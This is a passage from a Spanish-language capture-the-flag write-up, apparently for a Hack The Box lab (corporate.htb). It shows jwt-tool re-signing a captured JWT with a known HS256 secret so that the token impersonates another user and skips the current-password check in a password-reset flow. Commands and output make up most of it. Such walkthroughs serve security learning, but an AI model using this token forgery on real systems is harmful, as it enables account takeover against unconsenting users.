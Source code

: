 Empezemos editando el JWT que obtuvimos al principio de todo como Candido Hackett para colocarlo en nombre de Gayle Graham (ID: 5025), dado que de lo único que depende el reinicio de contraseña son del campo `name`, `surname` y `requireCurrentPassword`, vamos a alterarlos a nuestro beneficio:

```bash
❯ jwt-tool -T -S hs256 -p '09cb527651c4bd385483815627e6241bdf40042a' eyJ
hbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6NTA3MiwibmFtZSI6IkNhbmRpZG8iLCJz
dXJuYW1lIjoiSGFja2V0dCIsImVtYWlsIjoiQ2FuZGlkby5IYWNrZXR0QGNvcnBvcmF0ZS5odG
IiLCJyb2xlcyI6WyJzYWxlcyJdLCJyZXF1aXJlQ3VycmVudFBhc3N3b3JkIjp0cnVlLCJpYXQi
OjE3MjA0NzE2NzcsImV4cCI6MTczMTIwMzM1Nn0.pMCfdUY-Z2_9DPmLR3nQ0kTlUFwKmLRrut
vJ9NiwxGE
... [snip]
Token header values:
[1] alg = "HS256"
[2] typ = "JWT"
[3] *ADD A VALUE*
[4] *DELETE A VALUE*
[0] Continue to next step

Please select a field number:
(or 0 to Continue)
> 0

Token payload values:
[1] id = 5072
[2] name = "Candido"
[3] surname = "Hackett"
[4] email = "Candido.Hackett@corporate.htb"
[5] roles = ['sales']
[6] requireCurrentPassword = True
[7] iat = 1720471677    ==> TIMESTAMP = 2024-07-08 16:47:57 (UTC)
[8] exp = 1731203356    ==> TIMESTAMP = 2024-11-09 21:49:16 (UTC)
[9] *ADD A VALUE*
[10] *DELETE A VALUE*
[11] *UPDATE TIMESTAMPS*
[0] Continue to next step
Please select a field number:
(or 0 to Continue)
> 2

Current value of name is: Candido
Please enter new value and hit ENTER
> Gayle
... [snip]
Please select a field number:
(or 0 to Continue)
> 3

Current value of surname is: Hackett
Please enter new value and hit ENTER
> Graham
... [snip]

Please select a field number:
(or 0 to Continue)
> 6

Current value of requireCurrentPassword is: True
Please enter new value and hit ENTER
> False

# El ID lo cambié simplemente por conveniencia
[1] id = 5025
[2] name = "Gayle"
```